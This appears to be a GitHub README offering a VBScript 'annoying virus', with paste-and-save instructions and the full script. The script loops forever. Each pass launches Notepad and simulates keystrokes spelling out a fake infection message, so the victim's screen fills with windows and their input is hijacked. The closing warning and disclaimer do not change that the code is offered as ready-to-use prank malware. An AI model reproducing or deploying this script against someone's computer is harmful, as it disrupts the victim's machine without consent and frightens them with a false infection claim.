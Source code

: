 # vbs-autotyping-and-annoying-virus

This Is One Of The Most Annoying Computer Virus Made In Visual Basic Script By OCEAN OF ANYTHING. ;) enjoy.

# Download Or Clone This Repo To Use This Virus.
or
# Copy And Paste The Following Code In Notpad And Save It With .vbs Extention.


```
do
Set wshshell = wscript.CreateObject("WScript.Shell") 
Wshshell.run "Notepad" 
wscript.sleep 100
wshshell.sendkeys "H"
wscript.sleep 100
wshshell.sendkeys "I"
wscript.sleep 100
wshshell.sendkeys " "
wscript.sleep 100
wshshell.sendkeys "Y"
wscript.sleep 100
wshshell.sendkeys "O"
wscript.sleep 100
wshshell.sendkeys "U"
wscript.sleep 100
wshshell.sendkeys "R"
wscript.sleep 100
wshshell.sendkeys " "
wscript.sleep 100
wshshell.sendkeys "P"
wscript.sleep 100
wshshell.sendkeys "C"
wscript.sleep 100
wshshell.sendkeys " "
wscript.sleep 100
wshshell.sendkeys "H"
wscript.sleep 100
wshshell.sendkeys "A"
wscript.sleep 100
wshshell.sendkeys "S"
wscript.sleep 100
wshshell.sendkeys " "
wscript.sleep 100
wshshell.sendkeys "B"
wscript.sleep 100
wshshell.sendkeys "E"
wscript.sleep 100
wshshell.sendkeys "E"
wscript.sleep 100
wshshell.sendkeys "N"
wscript.sleep 100
wshshell.sendkeys " "
wscript.sleep 100
wshshell.sendkeys "I"
wscript.sleep 100
wshshell.sendkeys "N"
wscript.sleep 100
wshshell.sendkeys "F"
wscript.sleep 100
wshshell.sendkeys "N"
wscript.sleep 100
wshshell.sendkeys "C"
wscript.sleep 100
wshshell.sendkeys "T"
wscript.sleep 100
wshshell.sendkeys "E"
wscript.sleep 100
wshshell.sendkeys "D"
loop
```
# Warning
This Is One Of The Most Harmful Virus. Dont Use It On Anyone's Computer. I am Not Responcible Of Any Misuses Of This Virus.  